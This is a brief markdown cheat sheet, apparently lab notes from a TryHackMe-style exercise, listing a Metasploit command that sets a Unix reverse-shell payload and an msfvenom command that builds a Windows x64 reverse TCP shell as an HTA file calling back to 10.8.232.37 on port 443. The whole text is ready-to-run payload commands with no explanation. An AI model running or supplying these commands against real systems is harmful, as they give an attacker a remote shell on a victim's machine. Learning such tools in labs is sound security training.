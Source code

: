 # Metasploit Commands

```
set PAYLOAD payload/cmd/unix/reverse
```
# MSFVenom Commands

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
